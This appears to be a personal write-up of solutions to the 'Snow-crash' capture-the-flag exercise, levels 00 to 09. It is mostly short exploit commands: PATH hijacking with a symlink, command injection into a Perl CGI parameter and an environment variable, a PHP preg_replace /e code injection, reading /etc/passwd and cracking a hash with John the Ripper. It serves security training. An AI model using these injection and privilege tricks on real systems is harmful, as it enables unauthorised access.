 # Snow-crash

    Login form :
    ssh -i ~/.ssh/id_rsa.pub level00@165.22.17.96 -p 4242

## level 00

`find / -type f -user flag00 2>/dev/null`

ROT 13 Algorithm

## level 01

`cat /etc/passwd`

hashed Password -> john the Ripper (decode tool)
Copy safely and crack the john the Ripper

brew install john (MacOS version, so it may difffent with different OS )

echo "42hDRfypTqqnw" > text
john text --show

## level 02

pcap file : to store network packet data captured during network traffic monitoring or analysis.
Decode with WireShark (decode pcap file tools)

Open new terminal :
`scp -P 4242 level02@127.0.0.1:/home/user/level02/level02.pcap /tmp`

Analyze HexDump with tcp stream.

## level 03

iVar1 = system("/usr/bin/env echo Exploit me");

`ln -s /bin/getflag /tmp/echo`
`export PATH=/tmp`

## level 04

이 스크립트는 쿼리 문자열에서 "x"라는 매개변수를 가져와 해당 값을 명령으로 사용하여 명령을 실행하고 결과를 출력함.

curl '127.0.0.1:4747/level04.pl?x=`getflag`

## level 05

from /usr/sbin:

`echo 'getflag > /tmp/flag05' > /opt/openarenaserver/getflag05`

## level 06

PHP syntax : https://www.php.net/manual/en/language.types.string.php

`Example of the PHP function on level06
$string = "[x echo \"Hello, world!\"]";
$result = preg_replace('/(\[x (.\*)\])/e', "$2", $string);
echo $result; // Output: Hello, world!`

`echo '[x {${`getflag`}}]' > /tmp/getflag`

## level 07

export LOGNAME="&&getflag"

## level 08

`ln -s /home/user/level08/token /tmp/level08flag`

## level 09

Write a decode file in c.
`cat token | xargs /tmp/decode`
